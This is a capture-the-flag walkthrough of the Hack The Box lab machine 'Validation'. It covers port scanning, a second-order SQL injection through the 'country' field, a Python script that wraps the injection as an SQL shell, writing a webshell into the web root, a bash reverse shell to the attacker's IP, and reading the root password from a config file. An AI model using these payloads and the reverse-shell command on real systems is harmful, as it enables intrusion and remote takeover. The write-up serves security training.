# [Validation](https://app.hackthebox.com/machines/Validation)

```bash
nmap -p- --min-rate 10000 10.10.11.116 -Pn
```



After discovering open ports, let's do greater scan for these open ports.

```bash
nmap -A -sC -sV -p22,80,4566,8080 10.10.11.116
```




Let's see web application on port (80).




I started to `SQLI` payloads by adding quote character, web app doesn't response properly.



I just think that for `country` parameter, I can do SQL Injections while I can enumerate db.

```bash
=Brazil' union select user();-- -
```

I enter this input and results back like this.




It means, it is `Second-order SQL Injection`.


I wrote `Python` script such below.

```python
#!/usr/bin/env python3

import random
import requests
from bs4 import BeautifulSoup
from cmd import Cmd


class Term(Cmd):

    prompt = "> "

    def default(self, args):
        name = f'dr4ks-{random.randrange(1000000,9999999)}'
        resp = requests.post('http://10.10.11.116/',
                headers={"Content-Type": "application/x-www-form-urlencoded"},
                data={"username": name, "country": f"' union {args};-- -"})
        soup = BeautifulSoup(resp.text, 'html.parser')
        if soup.li:
            print('\n'.join([x.text for x in soup.findAll('li')]))

    def do_quit(self, args):
        return 1

term = Term()
term.cmdloop()
```


I have proper SQL CLI.




Now, I will try to write some txt data into web application folder ("/var/www/html/dr4ks.txt")

```bash
select "dr4ks was here!" into outfile '/var/www/html/dr4ks.txt'
```




Let's write malicious PHP webshell into here.




Now, I can execute commands from `dr4ks.php` webshell which I upload now.




Now, I will add reverse shell payload  (URL ENCODED) into here.
```bash
bash -c "bash -i >& /dev/tcp/10.10.16.7/1337 0>&1"
```



I got reverse shell from port (1337).




user.txt




I found `config.php` file on '/var/www/html' directory which contains sensitive credentials.




That's the password of `root` user.

root: uhc-9qual-global-pw

root.txt


